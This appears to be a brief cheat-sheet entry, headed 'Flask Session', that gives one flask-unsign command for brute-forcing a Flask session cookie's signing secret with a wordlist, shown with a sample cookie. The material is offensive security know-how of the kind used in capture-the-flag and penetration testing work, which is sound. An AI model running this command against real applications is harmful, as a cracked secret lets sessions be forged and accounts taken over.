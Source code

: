 # Flask Session

- Flask session cookie brute-force

```bash
flask-unsign --unsign --wordlist /path/to/wordlist --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiaDN4In0.Yn8JWA.gz32Fnb6t78BD8-GN6Lug7w1GAk'
```